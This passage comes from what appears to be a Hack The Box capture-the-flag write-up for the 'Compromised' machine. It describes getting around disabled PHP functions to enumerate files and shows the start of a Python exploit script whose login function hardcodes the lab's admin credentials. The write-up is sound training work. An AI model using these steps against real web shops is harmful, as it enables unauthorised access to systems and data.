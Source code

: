 ![PHPinfo](/assets/htb/Compromised/http/exploit/phpinfo2.png)

Looking at the PHPinfo, we can see that seemingly all malicious php-functions are blocked. As we are able to execute most PHP-functions, we can still start to enumerate the file-system using functions like `scandir` and `file_get_contents`.

### PHP - CE exploit script

As automation is fun, let us create a [python script](https://github.com/chr0x6eos/HTB/blob/master/Compromised/exploit.py) (available on my [GitHub](https://github.com/chr0x6eos/HTB)) to automate exploitation and create a pseudo php-shell.

The python script simply redoes all the steps we did manually, such as the login process.

```python
def login(username:str="admin", password:str="theNextGenSt0r3!~") -> requests.Session:
    """
    Tries to login and if successful, return session
    """
    session = requests.Session()
    data = {
        'token':get_token(f"{host}/shop/admin/login.php"),
        'username':username,
        'password':password,
        'login':'true'
    }
    if session.post(f"{host}/shop/admin/login.php", data=data, allow_redirects=False, proxies=proxies).status_code != 302:
        raise Exception("Did not successfully login! Please retry.")
    
    # Return session, if login was successful
    return session
```
